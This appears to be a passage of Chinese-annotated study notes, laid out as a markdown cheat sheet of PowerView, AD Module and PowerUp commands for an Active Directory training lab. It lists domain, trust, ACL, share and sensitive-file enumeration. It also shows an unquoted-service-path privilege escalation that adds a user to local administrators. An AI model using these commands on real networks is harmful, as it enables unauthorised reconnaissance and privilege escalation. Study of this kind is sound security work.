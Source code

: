 	- AD Module
		- `Get-ADOrganizationalUnit -Filter * -Properties *`
- List GPO
	- `Get-DomainGPO -Identity (Get-DomainOU -Identity xxx).gplink.substring(11,38)`
		- 列出指定的 OU 後再來針對它的 GPLink 對 GPO 進行搜尋
- List ACL
	- `Get-DomainObjectAcl -SearchBase "LDAP://CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local"`
	- `Get-DomainObjectACL -SearchBase ("LDAP://" + (Get-DomainGroup "Domain Admins").distinguishedname)`
	- `Get-DomainObjectACL -Identity "Domain Admins" -ResolveGUIDS -Verbose`
	- `Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}`
- List Forest
	- PowerView
		- `Get-ForestDomain | Select Name, Forest, DomainControllers, Children`
		- `Get-ForestDomain -Forest eurocorp.local`
	- AD Module
		- `(Get-ADForest).domains`
- List Domain Trust
	- PowerView
		- `Get-DomainTrust` (Trust direction, External Trust)
			- `Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}` (Only External Trust)
			- `Get-ForestDomain | %{Get-DomainTrust -Domain $_.name}` Forest Trust
	- AD Module
		- `Get-ADTrust -Filter * | Select Name, Direction`
		- `(Get-ADForest).Domains | %{Get-ADTrust -Filter * }` (All Forest's Domain Trust)
		- `(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}` Only External Trust
### Local
- Get Local Group
	- `Get-NetLocalGroup` (PowerView)
		- `-ComputerName xxx` 可以查其他台電腦的，但需要有權限
	- `Get-NetLocalGroupMember` (PowerView)
		- `-GroupName Administrators` 列出 local group 的成員
		- `-ComputerName xxx` 可以查其他台電腦的，但需要有權限
- Logged User
	- `Get-NetLoggedOn` (PowerView)
		- `-ComputerName xxx` 需要 local admin
	- `Get-LoggedOnLocal -ComputerName xxx` 登入的 Local User (需要 Remote Registry，Server OS 預設有開)
	- `Get-LastLoggedOn -ComputerName xxx` 上一個登入的 User
- Local Privilege Escalation
	- `Import-Module .\PowerUp.ps1`
		- `Get-ServiceUnquoted -Verbose`
			- `Write-ServiceBinary -Name 'AbyssWebServer' -Path "c:\WebServer\Abyss.exe" -UserName 'meow' -Password 'P@ssw0rd123!'`
			- `Write-ServiceBinary -Name 'AbyssWebServer' -Path "c:\WebServer\Abyss Web.exe" -Command "net localgroup administrators dcorp\student365 /add"`
			- `Restart-Service AbyssWebServer`

### SMB
- PowerView
	- `Invoke-ShareFinder` 列出整個 Domain 上所有上所有 shares
		- `-Verbose`
	- `Invoke-FileFinder` 列出 Domain 上的敏感資料
		- `-Verbose`
	- `Get-NetFileServer` 列出 Domain 中所有 File 
